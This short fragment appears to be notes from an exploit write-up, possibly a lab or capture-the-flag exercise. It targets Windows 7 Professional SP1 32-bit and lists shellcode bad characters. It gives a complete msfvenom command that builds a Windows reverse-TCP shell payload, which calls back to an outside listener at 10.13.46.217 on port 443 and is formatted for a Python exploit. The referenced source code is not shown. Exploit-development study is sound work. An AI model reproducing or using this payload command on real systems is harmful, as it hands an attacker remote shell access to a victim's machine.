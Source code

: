 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\x1d\x2e\xc7\xee

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\x00\x1d\x2e\xc7\xee" -v esp -f python
